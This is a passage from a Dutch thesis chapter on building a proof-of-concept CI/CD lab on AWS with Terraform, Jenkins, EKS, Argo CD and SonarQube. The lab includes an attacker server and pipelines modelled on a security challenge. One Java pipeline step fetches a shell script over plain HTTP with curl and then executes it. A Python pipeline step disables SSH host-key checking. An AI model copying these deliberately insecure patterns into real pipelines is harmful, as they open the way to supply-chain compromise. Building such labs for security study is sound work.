  \item Argo CD updater wordt gebruikt om automatisch de Kustomize bestanden te wijzigen wanneer een nieuwe Docker image beschikbaar is.
  \item Sealed-secrets om alle belangrijke Kubernetes secrets te encrypteren.
\end{itemize}

Om toegang te krijgen tot bepaalde delen van de infrastructuur zijn er bepaalde AWS IAM identitities\footnote{IAM is het systeem dat gebruikt wordt in AWS om permissies toe te kennen. Via IAM is het mogelijk gebruikers, rollen en policies aan te maken.} aangemaakt. Er is een terraform user aangemaakt om de omgeving op te bouwen, af te breken en aan te passen. Door gebruik te maken van de AWS cli kan deze gebruiker op de locale computer correct geconfigureerd worden. Naast de terraform gebruiker is er ook een admin gebruiker die alle rechten heeft.
\newline 

Wanneer een bepaalde server van de infrastructuur bepaalde rechten nodig hebben, worden deze voorzien door gebruik te maken van IAM-rollen. De policies die toegekend worden aan deze verschillende rollen, worden grootendeels handmatig geconfigureerd in AWS zelf. Alle policies die gebruikt zijn voor deze omgeving kunnen teruggevonden worden in het hoofdstuk \ref{sec:Custom AWS policies voor de verschillende rollen die gebruikt worden} in de bijlagen. Alle andere rechten die toegekend worden in deze opstelling, maken gebruik van de standaard policies die in AWS beschikbaar zijn.
\newline

Alle vertrouwelijke informatie, zoals private keys, tokens en login gegevens, met uitzondering van het SonarQube-token, zijn geconfigureerd in de AWS Secrets Manager. Deze service biedt een veilige opslagplaats voor het beheren en beschermen van gevoelige gegevens. Het SonarQube-token, dat specifiek is voor de integratie met SonarQube, wordt toegevoegd aan de Jenkins Credential Store.

\begin{figure}[H]
  
\includegraphics[scale=0.40]{graphics/infrastructuur.png}
\caption{\label{fig:aws_infrastructuur} De infrastructuur waar de POC gebruik van maakt.}
\end{figure}
\clearpage

\paragraph{\IfLanguageName{dutch}{Uitleg over de jenkins jcasc}
{Information about the jenkins jcasc}}
\label{sec:Uitleg over de jenkins jcasc}

Door gebruik te maken van JCASC is er weinig handmatige configuratie nodig. JCASC is mogelijk danzij de JCASC plugin die op de Jenkins server aanwezig is. In de configuratie zijn de volgende zaken ingesteld. De volledige configuratie is te vinden in dit hoofdstuk \ref{sec:Jenkins jcasc file} van de bijlagen.

\begin{itemize}
  \item Hoe de gebruikers kunnen inloggen en de rechten waarover deze gebruikers beschikken op de Jenkins server.
  \item De configuratie voor de EC2 fleet plugin. Deze plugin zorgt ervoor dat EC2 VMs uitgerold kunnen worden via een autoscaling groep. Deze plugin overschrijft de standaard waarden die ingesteld zijn in de Terraform configuratie. Deze VMs connecteren via een ssh key die geconfigureerd is in AWS secrets manager.
  \item De GitHub instellingen zoals de known host file verificatie strategie.
  \item De url van de jenkins server en de url van de SonarQube server. Deze zullen wel nog gewijzigd moeten worden, maar mocht er een domein aan deze omgeving gekoppeld zijn, kunnen de url's op deze manier ingesteld worden.
  \item De gedeelde libraries die gebruikt worden. Deze libraries worden gebruikt om de code in de pipeline eenvoudig te houden en herbruikbare pipeline code te schrijven.
\end{itemize}

\paragraph{\IfLanguageName{dutch}{Bouwen van de infrastructuur met terraform}
{Building the infrastructure with terraform}}
\label{sec:Bouwen van de infrastructuur met terraform}

De variabelen, Terraform resources en andere Terraform code die gebruikt wordt om de infrastructuur op te bouwen kan teruggevonden worden \ref{sec:Variabelen, inputs, outputs, data sources en locals voor het bouwen van de infrastructuur}.
\newline

Om de bastion server op te bouwen is er enige configuratie vereist. De server wordt voorzien van een default amazon machine image (ami) waar ubuntu 22.04 LTS op geïnstalleerd is. Om toegang te krijgen tot de server, moet er een SSH-sleutel worden aangemaakt. De machine wordt toegewezen aan een AWS-beveiligingsgroep en wordt geplaatst in een publiek subnet. Ten slotte wordt er een shellscript uitgevoerd tijdens het opstarten van de machine. Dit script werkt de packages bij en installeert de AWS cli package. 
\newline

De code op de volgende pagina wordt gebruikt om de SSH-sleutel toe te voegen:
\clearpage

\begin{lstlisting}[language=terraform]  
  # Resource block om een public/private key paar aan te maken in aws
  resource "aws_key_pair" "key" {
      
      # Instellen van de key paar naam
      key_name = var.aws_key_pair_name
      
      # Instellen van de public key 
      public_key = var.aws_key_pair_public
    
  }
\end{lstlisting}

\vspace{0.5cm}
Deze key wordt vervolgens gebruikt om de machine op te bouwen aan de hand van onderstaande code:
\newline

\begin{lstlisting}[language=terraform]  
  # Resource block om een ec2 instance aan te maken
  resource "aws_instance" "instance" {
  
      # Instellen van de amazon machine image (ami)
      ami = var.aws_ami
  
      # Instellen van de nieuwe toegevoegde key
      key_name = var.aws_key_pair_name
  
      # Instellen van het type van ec2 instantie
      instance_type = var.aws_instance_type
  
      # Instellen van de publieke ip die geassocieerd zal worden met de instance
      associate_public_ip_address = var.aws_associate_public_ip
  
      # Instellen van het subnet dat gelinkt zal worden met de instance
      subnet_id = data.aws_subnet.subnet.id
  
      # Instellen van de security group die gelinkt wordt aan de instance
      vpc_security_group_ids = [data.aws_security_group.group.id]
  
      # Configuratie van het file systeem
      root_block_device {
        volume_type = var.aws_instance_volume_type
        volume_size = var.aws_instance_volume_size
        delete_on_termination = var.aws_instance_delete_on_termination
      }
      
      # Instellen van de user data, wat voor script er uitegvoerd zal worden bij de opstart van de machine 
      user_data = "${file("modules/aws_ec2_instance/scripts/${var.script}")}"
  
      # Instellen van de verschillende tags o.a de naam
      tags = var.aws_tags
  }
\end{lstlisting}

Om de jenkins server op te bouwen, wordt een vergelijkbare configuratie gebruikt als die van de bastion server. Het verschil is dat er geen standaard Amazon Machine Image (AMI) wordt gebruikt, maar een aangepaste image die al alle benodigde pakketten en configuraties bevat. Bovendien wordt de Jenkins server gekoppeld aan een AWS IAM-rol, waardoor deze server toegang krijgt tot verschillende AWS-services zoals EC2, autoscaling en S3. Om verschillende policies te linken aan de IAM rol, moet deze rol eerst aangemaakt worden met terraform. 
\newline

Het aanmaken van deze rol wordt hieronder weergegeven:
\newline

\begin{lstlisting}[language=terraform]
  # Resource block voor het maken van een iam rol  
  resource "aws_iam_role" "instance" {

    # Instellen van de rol naam
    name = var.aws_instance_role_name
  
    # Deze code zorgt ervoor dat de rol aangenomen kan worden door een ec2 instance
    assume_role_policy = jsonencode({
      Version = "2012-10-17"
      Statement = [
        {
          Action = "sts:AssumeRole"
          Effect = "Allow"
          Sid    = ""
          Principal = {
            Service = "ec2.amazonaws.com"
          }
        },
      ]
    })
  }
\end{lstlisting}

\vspace{0.5cm}
Deze rol wordt daarna gelinkt aan de volgende policies zodat de server gebruik kan maken van alle benodigde resources. De volledige configuratie die gebruikt wordt om de policies te configureren is te vinden in het hoofdstuk \ref{sec:Jenkins server policies} van de bijlagen.

\begin{itemize}
  \item Een policy die ervoor zorgt dat de Jenkins server toegang heeft tot de S3 bucket. Deze heeft hij namelijk nodig voor het laden van de jcasc configuratie.
  \item Een policy die ervoor zorgt dat de Jenkins server EC2-servers kan aanmaken, verwijderen en updaten. Ook zorgt deze policy ervoor dat de jenkins server toegang heeft tot verschillende autoscaling functies.
  \item Een policy die ervoor zorgt dat Jenkins toegang heeft tot de secrets die in AWS secrets manager zitten.
\end{itemize}

\vspace{0.5cm}
Om de Jenkins-server deze rol te laten gebruiken, is een instantieprofiel vereist. Deze configuratie wordt tot stand gebracht door de parameter ''iam instance profile'' te gebruiken in de Terraform-resource.
\newline

\begin{lstlisting}[language=terraform]
  
  # Resource block die een instance profiel aanmaakt met de nieuwe rol
  resource "aws_iam_instance_profile" "demo-profile" {

    # Instellen van de naam voor het instance profiel
    name = "demo_profile"

    # De juiste rol toevoegen aan het instance profiel
    role = aws_iam_role.instance.name
  } 
\end{lstlisting}

\vspace{0.5cm}
De volledige configuratie en het shell script die uitgevoerd wordt voor deze machine, kan teruggevonden worden in hoofstuk \ref{sec:Jenkins server}. Dit shell script wordt gebruik om de jcasc vanaf de s3 bucket in te laden bij het opstarten.
\newline

In de Proof of Concept (POC) zijn er ook servers voor de aanvaller en een webserver waarop bestanden worden gehost. Deze servers worden gebruikt voor verschillende aanvallen die later in meer detail zullen worden besproken. Voor de server van de aanvaller wordt de Terraform-configuratie van de bastionserver gevolgd. De webserver volgt de configuratie van de Jenkins-server. De Terraform-code voor deze servers kan worden gevonden in Bijlage \ref{sec:Bastion server} van dit hoofdstuk.
\newline

De volgende stap is het configureren van de autoscaling groep waarvan de jenkins runners gebruik zullen maken. De jenkins runners maken net als de jenkins server, gebruik van een backed image. Deze image bevat alle nodige packages om een Java applicatie te kunnen bouwen en testen. Om deze autoscaling groep snel op te bouwen wordt een AWS launchtemplate gebruikt\footnote{Een AWS launchtemplate is een sjabloon die gebruikt wordt om EC2 server te definiëren. Door gebruik te maken van deze template worden alle servers op dezelfde manier geconfigureerd. }. Deze template wordt met terraform aangemaakt en is te vinden in dit hoofdstuk van de bijlagen \ref{sec:Launch template}. 
\clearpage

Om de autoscaling groep op te bouwen wordt onderstaande configuratie gebruikt:
\newline

\begin{lstlisting}[language=terraform]
  # Resource block om een autscaling groep te bouwen
  resource "aws_autoscaling_group" "group" {
  
    # Instellen van de naam van de autoscaling groep
    name = var.aws_autoscaling_group_name
  
    # Instellen van de default waarden voor de autoscaling groep
    desired_capacity   = 0
    max_size           = 0
    min_size           = 0
  
    # Instellen van de launch template die gebruikt zal worden
    launch_template {
      id      = var.aws_launch_template_id
      version = "$Latest"
    }
  
    # instellen van de subnets
    vpc_zone_identifier = data.aws_subnets.name.ids
  
    # Deze optie zorgt ervoor dat instance aangemaakt en verwijderd kunnen worden zonder veel problemen
    protect_from_scale_in = false
  }
\end{lstlisting}

\vspace{0.5cm}
Om toegang te krijgen tot de inlogpagina's van Jenkins en SonarQube, moeten deze servers nog toegankelijk worden gemaakt vanaf het internet. Dit kan worden gedaan door gebruik te maken van load balancers, waardoor functionaliteit wordt geboden en gebruik kan worden gemaakt van de mogelijkheden die load balancers bieden. 
\newline

De opbouw van de load balancers wordt als volgt uitgevoerd:
\newline

\begin{lstlisting}[language=terraform]
  # Resource block om een load balancer aan te maken
  resource "aws_elb" "jenkins_elb" {
  
      # Instellen van de subnets die gelinkt worden aan de load balancer
      subnets = data.aws_subnets.name.ids
  
      # Instellen van de cross zone load balancing optie
      cross_zone_load_balancing = var.cross_zone_load_balancing\
  
      # Instellen van de security groep
      security_groups = [data.aws_security_group.name.id]
  
      # instellen van de instance die gebruikt 
      instances = [data.aws_instance.name.id]
  
      # instellen van de listener
      listener { 
        instance_port     = var.loadbalancer_instance_port 
          instance_protocol = "http" 
          lb_port           = 80 
          lb_protocol       = "http" 
       }
      
      # Instellen van de health check 
      health_check { 
         healthy_threshold   = 2 
          unhealthy_threshold = 2 
          timeout             = 3 
          target              = "TCP:${var.loadbalancer_target}"    
          interval            = 5 
      } 
      
  }
\end{lstlisting}

\vspace{0.5cm}
Het laatste deel van de infrastructuur opstelling bestaat uit een Kubernetes cluster. Deze cluster wordt aangemaakt door gebruik te maken van de EKS service in AWS. Om pods te kunnen runnen op deze cluster wordt er gebruik gemaakt van een nodegroup. Deze twee resource vormen samen het cluster gedeelte van de infrastructuur. De output van deze cluster wordt gebruikt door de helm provider om connectie te kunnen maken met de cluster. Door gebruik te maken van de output is het mogelijk een node groep aan deze cluster te koppelen en dus pods uit te voeren op de cluster.
\newline

De cluster maakt gebruik van een rol om bepaalde acties uit te voeren in AWS. Deze rol is opgebouwd met terraform code en is gelinkt aan een aantal standaard policies. De volledige code voor deze configuratie is te vinden in het hoofdstuk \ref{sec:EKS policies} in de bijlagen. 
\newline

De cluster resource wordt gecreëerd met behulp van de onderstaande code:
\newline

\begin{lstlisting}[language=terraform]
  # Resource block voor het aanmaken van een EKS-cluster
  resource "aws_eks_cluster" "example" {
  
    # Instellen van de naam van de cluster
    name     = var.aws_eks_cluster_name
  
    # Instellen van de rol die gebruikt zal worden door de cluster
    role_arn = aws_iam_role.eks_cluster.arn
  
    # Instellen van de VPC configuratie
    vpc_config {
  
      # Instellen of de cluster toegankelijk is vanaf het internet
      endpoint_private_access = false
      endpoint_public_access = true
  
      # Instellen welke subnets gelinkt zullen worden aan deze cluster
      subnet_ids = data.aws_subnets.all.ids
    }
  
    depends_on = [
      aws_iam_role_policy_attachment.amazon_eks_cluster_policy,
      aws_iam_role_policy_attachment.amazon_eks_vpc_resource_controller,
    ]
  }
\end{lstlisting}

\vspace{0.5cm}
Aan de EKS-cluster wordt zoals eerder vermeld een EKS-nodegroep toegevoegd. Deze groep is vergelijkbaar met de autoscaling-groep die door Jenkins wordt gebruikt. De nodegroep wordt beheerd door EKS. De code om de nodegroep op te bouwen is te vinden in \ref{sec:EKS node groep}. Ook de nodegroep is gekoppeld aan een rol met een aantal bestaande policies die te vinden zijn in Bijlage \ref{sec:EKS node groep policies}. De volgende beleidsregels worden geïmplementeerd voor de nodegroep.
\newline

Om de applicatie te kunnen implementeren, is er additionele software nodig die op het cluster zal draaien. Met behulp van Helm-charts kan deze software worden uitgerold. Om Helm te kunnen gebruiken in Terraform, moet eerst een Helm-provider worden toegevoegd. Deze provider zal verbinding maken met de cluster, waardoor de Helm-charts op de omgeving kunnen worden uitgerold. Helm-charts bieden ook de mogelijkheid om de standaardconfiguratie te overschrijven wanneer aangepaste configuratie vereist is.
\newline

Deze provider maakt gebruik van data sources om succesvol met de cluster te connecteren. De code voor de provider kan geraadpleegd worden in het hoofdstuk \ref{sec:Helm provider datasources} van de bijlagen. De waarden die overschreven worden bij deze charts zijn te vinden in de bijlagen in hoofdstuk \ref{sec:Helm charts}. De belangrijkste waarde die overschreven is, is de private docker repository waar de imageupdater gebruik zal van maken om automatisch een nieuwe versie van de applicatie uit te rollen wanneer een nieuwe Docker image beschikbaar is.
\clearpage

De Helm charts zelf, worden op de onderstaande manier opgebouwd. Het is belangrijk altijd het commando Helm repository update uit te voeren vooraleer de terraform configuratie wordt uitgevoerd zodat alle Helm charts correct geïnstalleerd kunnen worden.
\newline

\begin{lstlisting}[language=terraform]
  resource "helm_release" "Argo CD" {
    name = "Argo CD"
    repository = "https://argoproj.GitHub.io/argo-helm"
    chart = "argo-cd"
    namespace = "Argo CD" 
    create_namespace = true
    version = "3.35.4"

    values = [file("./modules/aws_helm_charts/values/Argo CD.yaml")]
  
}

resource "helm_release" "updater" {
    name = "updater"
    repository = "https://argoproj.GitHub.io/argo-helm"
    chart = "Argo CD-image-updater"
    namespace = "Argo CD" 
    create_namespace = true
    version = "0.8.4"

    values = [file("./modules/aws_helm_charts/values/imageupdater.yaml")]
  
}

resource "helm_release" "sealed-secrets" {
    name = "sealed-secrets"
    repository = "https://charts.bitnami.com/bitnami"
    chart = "sealed-secrets"
    namespace = "kube-system" 
    create_namespace = true
    version = "1.2.11"

  
}
\end{lstlisting}

\subsubsection{\IfLanguageName{dutch}{Post deployment}
{Post deployment}}
\label{sec:Post deployment}

Om toegang te krijgen tot de Jenkins- en webserver-VM's, wordt SSH gebruikt. Aangezien er een bastionserver wordt gebruikt, zal SSH-agentforwarding worden ingeschakeld. Om agentforwarding te kunnen gebruiken, is het belangrijk dat de nieuwste versie van OpenSSH wordt gebruikt op een Windows-besturingssysteem. Ook de SSH-instellingen worden aangepast waar nodig, zodat SSH-agentforwarding toegestaan is.
\newline

Het volgende commando wordt gebruikt om in te loggen op de bastionserver:
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  ssh -A -i [keyfile] [user]@[bastion server IP-adres]
\end{lstlisting}

\vspace{0.5cm}
Vervolgens wordt het volgende commando gebruikt om in te loggen op de \newline Jenkins-server:
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  ssh [user]@[private IP-adres van de server]
\end{lstlisting}

\vspace{0.5cm}
Hiermee kan toegang verkregen worden tot de tweede server via de bastionserver met behulp van SSH-agentforwarding.
\newline

In een van de pipelines wordt er een script uitgerold op de webserver. Hiervoor moet een public-private keypair worden aangemaakt en toegevoegd worden aan het authorized hosts-bestand van de webserver. Bovendien dienen de machtigingen van de map waarin de bestanden worden gehost aangepast te worden.
\newline

Deze server host de bestanden met behulp van een eenvoudige Python-webserver. Deze webserver draait op poort 8080. De Python dependency die eerder is aangemaakt, wordt ook gehost op deze server.
\newline

Op de Jenkins- en SonarQube server is nog enige configuratie nodig. In de algemene instellingen van Jenkins moet de url van de Jenkins-server worden aangepast naar degene die wordt gebruikt voor de load balancer. Daarnaast wordt er een GitHub-server toegevoegd om gebruik te kunnen maken van de GitHub API en GitHub-webhooks te kunnen gebruiken. Voor deze configuratie wordt er gebruik gemaakt van een GitHub-token dat is toegevoegd aan AWS Secrets Manager.
\newline

Om webhooks te kunnen gebruiken in de omgeving wordt een tijdelijke webhook opgezet. Smee.io is een tool die het mogelijk maakt om deze tijdelijke webhook te creëren. Deze software moet worden geïnstalleerd op de Jenkins-server. Nadat Smee is geïnstalleerd, moet de Smee url worden toegevoegd aan de webhook-sectie van de GitHub-repositories. 
\newline

Om Smee te activeren, moet het volgende commando worden uitgevoerd:
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  smee --url [Smee url van smee.io] --path /GitHub-webhook/ --port 8080
\end{lstlisting}

\vspace{0.5cm}
Met dit commando wordt Smee gestart en wordt de webhook verbonden met de opgegeven URL en poort.
\newline

Als laatste stap moet SonarQube nog geconfigureerd worden. Allereerst moet er een nieuw wachtwoord worden ingesteld voor SonarQube. Vervolgens wordt er een SonarQube-token aangemaakt, dat gebruikt zal worden voor authenticatie met de SonarQube-server. Voordat de serverconfiguratie in Jenkins kan worden aangevuld, moet dit token worden toegevoegd in Jenkins.
\newline

Op de SonarQube-server zelf moet er een webhook worden aangemaakt, zodat er gebruik kan worden gemaakt van de quality gates in de pipeline.

\subsection{\IfLanguageName{dutch}{De CI pipelines}
{The CI pipelines}}
\label{sec:De CI pipelines}

Op de Jenkins-server worden twee CI-pipelines geconfigureerd. De eerste pipeline wordt gebruikt om de Java-applicatie te testen, te bouwen en uiteindelijk naar Dockerhub te pushen. De tweede pipeline is bedoeld voor het bouwen van een Python-afhankelijkheid die door de eerste pipeline gebruikt zal worden. Deze pipelines worden geconfigureerd als multibranch pipelines in Jenkins.
\newline

Door gebruik te maken van Smee, worden nieuwe builds geactiveerd wanneer er een pull-request wordt verstuurd of wanneer er wijzigingen worden gepusht naar de bijhorende repositories.
\newline

De Java-pipeline maakt gebruik van een gedeelde bibliotheek die alle Groovy-code bevat. De secrets die worden gebruikt in de pipeline, worden opgehaald uit AWS Secrets Manager. Sommige secrets worden echter gebruikt als omgevingsvariabelen.
\newline

Figuur \ref{fig:CIpipe} heeft een overzicht van de java CI pipeline die gebruikt wordt bij de POC. De andere figuur, figuur \ref{fig:CIpipep} toont hoe de python pipeline in elkaar zit.
\newline

\begin{figure}[H]
  
\includegraphics[scale=0.35]{graphics/CIpipe.png}
\caption{\label{fig:CIpipe} De Java-pipeline die gebruikt wordt.}
\end{figure}

\begin{figure}[H]
  
\includegraphics[scale=0.35]{graphics/CIpipep.png}
\caption{\label{fig:CIpipep} De Python-pipeline die gebruikt wordt.}
\end{figure}
\clearpage

\subsubsection{\IfLanguageName{dutch}{Bouwstenen van de CI-pipelines}
{Components of the CI-pipelines}}
\label{sec:Bouwstenen van de CI-pipelines}

In het Java-pipeline bestand wordt in eerste instantie aangegeven of er gebruik wordt gemaakt van gedeelde bibliotheken. De opbouw van de Java-pipeline volgt de aanpak van \textcite{Kumar2023} De Java-pipeline maakt gebruik van een gedeelde bibliotheek om de code in de pipeline te vereenvoudigen. Het gebruik van een gedeelde bibliotheek biedt het voordeel dat deze door meerdere pipelines kan worden hergebruikt
\newline

De agent die de Java-pipeline uitvoert, wordt geconfigureerd via de autoscaling group. Deze groep kan worden aangesproken dankzij de EC2-Fleet-plugin die is geïnstalleerd in Jenkins. In de pipeline configuratie wordt een label meegegeven zodat het duidelijk is welke agenst de pipeline moeten bouwen. De agent maakt verbinding via een SSh-sleutelpaar dat is ingesteld in AWS Secrets Manager.
\newline

De Python-pipeline die gebruikt wordt, wordt uitgevoerd op de Jenkins master server zelf. Deze pipeline is gebaseerd op deze in de Dormouse challenge van Cider. \autocite{Cider2022} In deze pipeline worden enkele omgevings variabelen ingesteld. Deze variabelen worden gebruikt om te bepalen wat voor stappen gevolgd zullen worden. De pipeline reageert namelijk op een PR of een push actie. Indien het om een PR gaat, wordt een e-mail verstuurd naar de maintainer zodat hij op de hoogte wordt gebracht. Als het om een push actie gaat, wordt een nieuwe versie van de Python applicatie gebouwd.
\newline

Tijdens de eerste stap van het releaseproces van de Python-pipeline worden de Python-dependencies geïnstalleerd. De volgende code wordt gebruikt om deze installatie uit te voeren.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  python3 -m pip install -U pip
  python3 -m pip install -U wheel
  python3 -m pip install --progress-bar=off tox pytest-xdist -rci/requirements.txt
\end{lstlisting}

\vspace{0.5cm}
Daarna volgt een installatie van de nieuwe sofware.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
python3 -m pip install . || true
\end{lstlisting}

\vspace{0.5cm}
Uiteindelijk wordt een file uitgerold naar een webserver door gebruik te maken van scp.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  scp -vvv -o StrictHostKeyChecking=no -i ${KEY_FILE} reportcov.sh ubuntu@192.168.19.71:/var/www/ 
\end{lstlisting}

\vspace{0.5cm}
De volledige jenkinsfile voor het bouwen van deze pipeline kan teruggevonden worden in \ref{sec:Pipeline bestand voor het bouwen van de python applicatie}.
\newline

De Java-pipeline begint met het instellen van de Docker-logingegevens aan de hand van een omgevingsvariabele. Hierna volgt de stap voor unit testing. In deze stap wordt gebruik gemaakt van een bestand dat wordt gehost door de webserver en dus een bestand dat is gebouwd door de Python-pipeline. Vervolgens wordt Maven gebruikt om de unit testen uit te voeren. 
\newline

Hieronder zijn de specifieke commando's beschreven die gebruikt worden in deze stap van de pipeline:
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  curl -Os http://prod/reportcov.sh
  chmod +x reportcov.sh
  ./reportcov.sh
  mvn test
\end{lstlisting}

\vspace{0.5cm}
Na deze stap is er een integratie test.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  mvn verify -DskipUnitTests
\end{lstlisting}

\vspace{0.5cm}
Voor code-analyse wordt de SAST-tool SonarQube gebruikt. SonarQube kan toegevoegd worden in Jenkins door gebruik te maken van de SonarQube-plugin. Via deze plugin is het mogelijk te authenticeren met de SonarQube-server. 
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  withSonarQubeEnv(credentialsId: credentialsId) {
        sh 'mvn clean package sonar:sonar'
    }
